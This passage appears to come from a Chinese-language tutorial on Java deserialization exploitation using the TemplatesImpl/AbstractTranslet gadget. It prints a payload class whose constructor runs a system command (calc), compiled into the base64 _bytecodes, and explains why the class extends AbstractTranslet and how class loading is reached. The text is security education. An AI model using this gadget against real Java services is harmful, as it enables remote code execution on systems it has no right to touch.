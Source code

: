 上面的`text`里面的`_bytecodes`的内容是以下内容编译成字节码文件后（`.class`）再`base64`编码后的结果：

```bash
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

可以看到，我们通过以上代码直接定义类`Test`，并在类的构造方法中执行`calc`的命令；至于为什么要写上述代码的第`14`\-`21`行，因为`Test`类是继承`AbstractTranslet`的，上述代码的两个`transform`方法都是实现`AbstractTranslet`接口的抽象方法，因此都是需要的；具体来说的话，第一个`transform`带有`SerializationHandler`参数，是为了把`XML`文档转换为另一种格式，第二个`transform`带有`DTMAxisIterator`参数，是为了对`XML`文档中的节点进行迭代。  
**总结：**对于上述代码，应该这么理解：建立`Test`类，并让其继承`AbstractTranslet`类，然后通过`Test t = new Test();`来初始化，这样我就是假装要把`xml`文档转换为另一种格式，在此过程中会触发构造方法，而我在构造方法中的代码就是执行`calc`，所以会弹出计算器。

#### ①问题 1：为什么要继承`AbstractTranslet`类？

参考`Y4tacker`师傅的文章：

> [https://blog.csdn.net/solitudi/article/details/119082164](https://blog.csdn.net/solitudi/article/details/119082164)

但是在实战场景中，`Java`的`ClassLoader`类提供了`defineClass()`方法，可以把字节数组转换成`Java`类的示例，但是这里面的方法的作用域是被`Protected`修饰的，也就是说这个方法只能在`ClassLoader`类中访问，不能被其他包中的类访问：  
[![](assets/1706233003-cb112962e5ff43499cec67360468ad78.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124170447-9fb9a924-ba97-1.jpeg)  
但是，在`TransletClassLoader`类中，`defineClass`调用了`ClassLoader`里面的`defineClass`方法：  